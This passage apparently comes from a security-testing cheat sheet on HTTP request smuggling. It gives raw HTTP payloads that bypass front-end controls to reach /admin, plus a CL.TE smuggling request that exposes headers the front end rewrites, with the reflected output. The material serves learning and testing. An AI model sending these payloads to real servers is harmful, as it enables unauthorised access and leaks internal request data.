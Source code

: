 When you go to `/home`, the following request will be made&#x20;

```http
GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

* The front-end server sees two requests here, both for `/home`, and so the requests are forwarded to the back-end server.&#x20;
* The back-end server sees requests for `/home` and `/admin`, assumes they've passed front-end controls, and grants access to the restricted URL.

### <mark style="color:yellow;">Revealing front-end request rewriting</mark> <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

<mark style="color:yellow;">**CL.TE**</mark>

Find a request that reflects the value

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=user@normal-user.net
```

```html
<input id="email" value="user@normal-user.net" type="text">
```

Use the following request smuggling attack to reveal the rewriting

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
